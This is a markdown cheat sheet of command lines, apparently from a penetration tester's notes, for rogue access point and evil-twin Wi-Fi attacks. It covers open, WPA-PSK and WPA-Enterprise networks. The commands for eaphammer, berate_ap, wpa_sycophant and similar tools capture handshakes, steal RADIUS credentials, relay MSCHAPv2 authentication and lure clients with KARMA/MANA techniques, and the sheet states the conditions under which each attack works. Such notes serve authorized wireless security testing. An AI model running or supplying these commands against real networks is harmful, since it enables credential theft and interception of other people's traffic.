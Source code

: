 # Rogue AP / Evil Twin  
## Basic Open Hotspot  
	berate_ap <interface_AP> <interface_internet> <SSID>  

## Open Network Evil Twin  
	airgeddon.sh  
	fluxion.sh  
	wifipumpkin3  
	eaphammer -i wlan0 --channel <channel_number> --auth open --essid <SSID>  
## WPA/WPA2-Personal Evil Twin  
### WPA Passphrase Known  
	eaphammer -i wlan0 --channel <channel_number> --auth wpa-psk --essid <SSID> --wpa-passphrase <passphrase>  
### WPA Passphrase Unknown  
	Spawn Open Network Evil Twin instead to attack clients (e.g. Phishing attack to retrieve Passphrase)  
	Capture WPA (half) Handshake of connecting clients & Cracking  
		eaphammer -i wlan0 --channel <channel_number> --auth wpa-psk --essid <SSID> --wpa-passphrase randompassphrase --capture-wpa-handhshake  
## WPA/WPA2-Enterprise Evil Twin  
### RADIUS Credentials Unknown  
#### RADIUS Credentials Stealing  
	eaphammer --cert-wizard  
        eaphammer -i wlan0 --channel <channel_number> --auth wpa-eap --essid <SSID> --creds  
	Possible if:  
        - EAP method does not use client-certificat for client authentication  
        - Server certificate validation not enforced on client  
#### EAP (MSCHAPv2) Relay  
	berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout <file_captured_creds> <interface_AP> <interface_internet> <SSID>  
        wpa_sycophant.sh -c wpa_sycophant_example.conf -i <interface>  
	Possible if:  
        - Target network uses EAP method with MSCHAPv2 for client authentication  
        - Server certificate validation not enforced on client  
### RADIUS Credentials Known  
	ehdb --add --identity <username> --password <password> # Add credentials in db  
        ehdb --add --identity <username> --nt-hash <ntlm_hash>  # Add creds with NTLM hash in db  
        eaphammer -i wlan0 --channel <channel_number> --auth wpa-eap  --essid <SSID_corporate_wifi>  

### 802.11 Network Selection Algorithms Abuse (for Open Network)  
	KARMA Attack (outdated)  
		By default with wifiphisher  
	MANA Attack (KARMA improvement)  
		Add --mana option in eaphammer command  
	Loud MANA (MANA Improvement)  
		Add --mana --loud in eaphammer command  
	Known Beacons Attack  
		Add --mana --knwon-beacons in eaphammer command  
	Abuse clients' passive scanning  
